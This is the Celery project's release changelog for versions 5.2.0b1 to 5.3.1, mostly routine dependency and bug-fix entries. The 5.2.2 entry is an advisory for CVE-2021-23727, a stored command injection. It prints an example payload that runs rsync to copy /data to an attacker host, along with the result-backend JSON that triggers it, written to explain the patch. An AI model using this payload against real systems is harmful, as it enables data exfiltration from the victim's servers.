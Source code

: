 .. _changelog:

================
 变更记录
================

This document contains change notes for bugfix & new features
in the main branch & 5.3.x series, please see :ref:`whatsnew-5.3` for
an overview of what's new in Celery 5.3.


.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).



.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).


.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
